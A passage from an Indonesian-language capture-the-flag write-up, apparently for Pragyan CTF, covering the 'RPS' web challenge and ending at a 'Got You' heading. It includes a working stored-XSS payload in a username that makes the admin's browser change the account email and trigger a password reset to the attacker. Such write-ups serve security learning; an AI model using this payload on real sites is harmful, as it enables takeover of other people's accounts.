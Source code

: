 Setelah ke login kita akses page `/search` dan inputkan seperti berikut untuk mendapatkan flagnya.

![](https://i.imgur.com/tJ0LiPA.png)

## RPS - web
### Description
Maybe the "admin" holds the secret to winning Rock, Paper, Scissors against the computer. In order to hide it, they keep checking the leaderboard every minute, keeping track of the top players and taking caution against them.

Beat them at their own game.

https://rps.ctf.pragyan.org/

### Exploit
Pada challenge ini kita perlu meng-eksploitasi vulnerability xss yang ada di username kita.

Masukkan payload berikut untuk mengganti email admin ke email kita.

```html
<script>
    fetch("/email", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        credentials: "include",
        body: "newEmail=youremail@gmail.com"
    }).then(() => {
        fetch("/pass", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"
            },
            credentials: "include",
        })
    })
</script>
```

![](https://i.imgur.com/nbiXqZR.png)

Setelah itu kita akan mendapatkan password admin di email kita.

![](https://i.imgur.com/V54D31A.png)

Login menggunakan credensial admin. dan nanti kita akan mendapatkan flagnya seperti berikut.

![](https://i.imgur.com/D2vkCfn.png)

# Misc
## Got You
[https://gotyou.ctf.pragyan.org/](https://gotyou.ctf.pragyan.org/ "https://gotyou.ctf.pragyan.org/")
